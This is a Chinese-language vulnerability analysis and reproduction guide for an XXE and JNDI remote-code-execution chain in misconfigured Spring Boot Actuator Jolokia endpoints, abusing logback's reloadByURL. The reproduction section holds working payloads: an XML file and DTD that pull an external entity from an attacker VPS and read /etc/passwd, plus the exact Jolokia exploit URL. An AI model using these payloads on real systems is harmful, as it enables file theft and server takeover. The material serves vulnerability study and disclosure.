










# Spring Boot Actuator jolokia 配置不当导致的XXE漏洞

## 一、漏洞简介

Spring boot 会把 **/!** 解析成 */*，所以我们只要署恶意脚本，让被攻击服务器访问就会触发漏洞。
***前提条件***
**查看jolokia/list中存在的 Mbeans，是否存在logback 库提供的reloadByURL方法**

```
https://www.0-sec.org:9090/jolokia/list 
```



## 二、漏洞影响

Spring Boot 2.x

## 三、复现过程

### 漏洞分析

#### 触发流程

**Spring-boot-actuator**->**Jolokia**->**Logback**->**JNDI**->**Rce**

可以在 **JolokiaMvcEndpoint** 类中先看看 **jolokia** 是如何注册的，如下



只要是 **/jolokia** 为第一个 **path** 节点的，都会进入它的执行逻辑中，可以一直跟进到**org.jolokia.http.HttpRequestHandler#handleGetRequest** 里


在上图红框流程中，先对 **path** 做 **/** 切割分组，不过可以 **1!/2** 这样能够保留 **/** 符号，后边用得到
可以根据 **path** 节点新建 **JmxRequest** 对象
大致如下图所示，有这么些类别可以指定



我们主要观察 exec 类型的，它对应 org.jolokia.request.JmxExecRequest 类型，在它被创建时，会调用父类 org.jolokia.request.JmxObjectNameRequest 的构造函数，如下所示


跟进 initObjectName 函数，如下


如上图，这里将 exec 后面的第一个 path 节点带进了 javax.management.ObjectName 构造函数中



根据上图中的注释描述，可以根据一个字符串（对象名称的字符串表示形式）创建一个 ObjectName 对象，这个对象和后面的反射执行指定函数大有关系

然后将 path 的下一个节点赋值到 JmxExecRequst 的 operation 属性上，将剩余的 path 节点作为 List 赋值给 arguments 属性

至此 JmxRequest 创建完毕，进入 org.jolokia.http.HttpRequestHandler#executeRequest 执行流程当中，其中很多部分就不详细跟踪，大致是又根据 exec 类型创建了一个 org.jolokia.handler.ExecHandler 对象

看见poc很好奇参数转换过程是怎么样的

直接进入到 ExecHandler 的 doHandRequest 当中


如上图，就是将 JmxExecRequst 中的 operation 做参数类型鉴定，然后根据目标函数需要的参数类型，将 arguments 转换成对应类型，最后执行 server.invoke 的调用，这个调用就是执行我们指定的类中的指定的函数，那这里是不是能够任意类和任意函数都能执行呢，不是的，需要提前注册，注册的内容可以通过 `/jolokia/list` 查看

ch.qos.logback.classic.jmx.JMXConfigurator 就是能够调用的类之一，到了这里就进入到了 `logback` 的依赖包中

简单查看一下它的函数：



首先这个类名就很有意思 JMXConfigerator ，和 JMX 的配置有关，函数中也有个 reloadByURL ，从名字就能会意出通过远程加载配置文件并且重启配置23333

先查看 reloadByURL 函数



如上图，它的参数是一个 URL 类型的，我们传入进去只能是 String，但是不用方，ExecHandler 的 doHandRequest 当中会对目标函数的参数类型做适配，将 String 转换成 URL 。
但是这里有个问题，因为需要指定 schema ，所以必须有类似 http:// 这样的开头，而我们的 path 进去以后，会用 / 切割分组的，所以就需要用到前面的流程中对 uri 的处理过程，只需要这样请求就好： `http:!/!/`

跟入 doConfigure 函数



从 url 获取返回流传入下一个 doConfigure 函数，这里也能 ssrf 的
跟进函数如下：


继续跟进上图中的红色方框如下


如上图所示，在调用 recordEvents 的时候带入了输入流，这个输入流是我们可控的，即在自己服务器上放置的 xml 文件， xml 解析的过程就是发生在 recordEvents 的执行过程中，而后红框的调用，是对已经解析完成的内容进行一定的逻辑操作，然后重载配置，后面的过程就不分析了，简单的去看一下 recordEvents 执行过程，如下


很简单，build 完成后直接 parse，那我们查看一下 build 的时候是否有做防护，如下



什么防护和限制都莫得，所以这里也可以造成 xxe

那么到现在为止，只是梳理出来了 xxe 的触发，rce 呢
不方，我们查一查 logback insertFormJNDI 标签啥



其中的 env-entry-name 就是指向 jndi 的服务器地址，那么这里我们可以换成自己的恶意 jndi 服务器地址，通过 jndi 触发 java 反序列化，最终导致 RCE

### 漏洞复现

*   在VPS上创建logback.xml，logback中填写jndi服务，当调用时直接触发恶意class。

```
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE a [ <!ENTITY % remote SYSTEM "http://vps地址/恶意文件.dtd">%remote;%int;]>
<a>&trick;</a> 
```

*   在VPS上创建ian.dtd

```
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % int "<!ENTITY trick SYSTEM ':%d;'>"> 
```


*   开启http服务

```
python -m SimpleHTTPServer 80 
```

*   远程访问logback.xml文件

```
https://www.0-sec.org:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/VPS地址!/logback.xml 
```



*   可以看到服务器上也返回了响应日志
    

## 参考链接

> https://xz.aliyun.com/t/4258

> https://jianfensec.com/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/Spring%20Boot%20Actuators%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%AF%BC%E8%87%B4RCE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/